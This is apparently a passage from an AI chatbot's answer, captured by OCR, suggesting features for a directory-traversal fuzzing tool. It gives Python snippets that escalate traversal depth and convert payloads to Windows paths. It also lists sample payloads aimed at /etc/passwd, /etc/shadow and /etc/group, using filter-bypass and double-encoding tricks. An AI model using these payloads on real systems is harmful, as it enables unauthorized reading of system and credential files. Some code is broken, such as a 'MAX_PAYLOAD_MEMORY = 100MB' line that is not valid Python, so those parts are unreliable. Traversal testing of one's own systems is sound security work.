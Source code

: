     python
    
    Copy
    
    Download
    
    # Automatically increases traversal depth
    def escalate_depth(payload):
        current_depth = payload.count('../')
        return payload.replace('../', '../../', current_depth)
    
3. **Cross-OS Adaptation**:
    
    python
    
    Copy
    
    Download
    
    def convert_to_windows(payload):
        return payload.replace('../', '..\\').replace('/', '\\')
    

---

### **Suggested Additions** _(Optional Enhancements)_

1. **Wordlist Pre-Processing Statistics**
    
    python
    
    Copy
    
    Download
    
    # Hypothetical preprocessing report
    Wordlist Analysis:
    - Total entries: 1,250
    - Valid paths: 892 (71.36%)
    - Auto-generated variants: 358
    - Security blocks: 12 (0.96%)
    
2. **Payload Evolution Tracking**
    
    python
    
    Copy
    
    Download
    
    # Shows payload adaptation over time
    Generation 1: ../../etc/passwd
    Generation 2: ....//....//etc/shadow
    Generation 3: %252e%252e%252fetc%252fgroup
    
3. **Resource Management**
    
    python
    
    Copy
    
    Download
    
    # Controls memory usage during large scans
    MAX_PAYLOAD_MEMORY = 100MB
    if sys.getsizeof(payloads) > MAX_PAYLOAD_MEMORY:
        compress_payload_cache()